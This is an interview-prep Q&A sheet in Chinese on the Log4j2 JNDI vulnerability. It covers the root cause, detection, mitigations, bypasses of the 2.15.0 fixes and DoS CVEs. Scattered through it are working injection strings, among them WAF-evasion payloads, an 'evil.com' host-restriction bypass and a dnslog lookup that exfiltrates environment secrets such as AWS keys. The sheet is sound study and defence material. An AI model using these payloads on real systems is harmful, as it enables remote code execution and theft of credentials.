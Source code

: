 ## Log4j2

- 谈谈Log4j2漏洞（★★）

漏洞原理其实不难，简单来说就是对于`${jndi:}`格式的日志默认执行`JndiLoop.lookup`导致的RCE。日志的任何一部分插入`${}`都会进行递归处理，也就是说`log.info/error/warn`等方法如果日志内容可控，就会导致这个问题。这个漏洞本身不复杂，后续的绕过比较有趣



- Log4j2漏洞的黑盒检测（★）

由于该漏洞的特性，必须要出网才可以检测，例如`dnslog`的方式

在内网中也可不使用`dnslog`而是自行实现伪`JDNI/LDAP`的服务端用于探测



- Log4j2漏洞的白盒检测（★）

检查`pom.xml`或`gradle`中的依赖，是否存在`log4j2-api`和`log4j2-core`小于`2.15.0`则存在漏洞



- Log4j2的紧急修复手段（★★）

在JVM参数中添加`-Dlog4j2.formatMsgNoLookups=true`

系统环境变量中将`LOG4J_FORMAT_MSG_NO_LOOKUPS`设置为`true`

创建`log4j2.component.properties`文件并增加配置`log4j2.formatMsgNoLookups=true`

不重启应用情况下的修复手段参考另一个问题



- 知道Log4j2 2.15.0 RC1修复的绕过吗（★★★）

修复内容限制了协议和HOST以及类型，其中类型这个东西其实没用，协议的限制中包含了`LDAP`等于没限制。重点在于HOST的限制，只允许本地localhost和127.0.0.1等IP。但这里出现的问题是，加入了限制但没有捕获异常，如果产生异常会继续`lookup`所以如果在URL中加入一些特殊字符，例如空格，即可导致异常绕过HOSOT限制，然后`lookup`触发RCE



- Log4j2的两个DOS CVE了解吗（★★）

其中一个DOS是`lookup`本身延迟等待和允许多个标签`${}`导致的问题

另一个DOS是嵌套标签`${}`递归解析导致栈溢出



- Log4j2 2.15.0正式版的绕过了解吗（★★★）

正式版的修复只是在之前基础上捕获了异常。这个绕过本质还是绕HOST限制。使用`127.0.0.1#evil.com`即可绕过，需要服务端配置泛域名，所以#前的127.0.0.1会被认为是某个子域名，而本地解析认为这是127.0.0.1绕过了HOST的限制。但该RCE仅可以在MAC OS和部分Linux平台成功



- Log4j2绕WAF的手段有哪些（★★）

使用类似`${::-J}`的方式做字符串的绕过，还可以结合`upper`和`lower`标签进行嵌套

有一些特殊字符的情况结合大小写转换有巧妙的效果，还可以加入垃圾字符

例如：`${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}`



- Log4j2除了RCE还有什么利用姿势（★★★）

利用其他的`lookup`可以做信息泄露例如`${env:USER}`和`${env:AWS_SECRET_ACCESS_KEY}`

在`SpringBoot`情况下可以使用`bundle:application`获得数据库密码等敏感信息，不过`SpringBoot`默认不使用`log4j2`

这些敏感信息可以利用`dnslog`外带`${jndi:ldap://${java:version}.xxx.dnslog.cn}`



- 不停止运行程序如何修复Log4j2漏洞（★★★）

利用JavaAgent改JVM中的字节码，可以直接删了`JndiLookup`的功能

有公众号提出类似`Shiro`改`Key`的思路，利用反射把`JndiLookup`删了也是一种办法
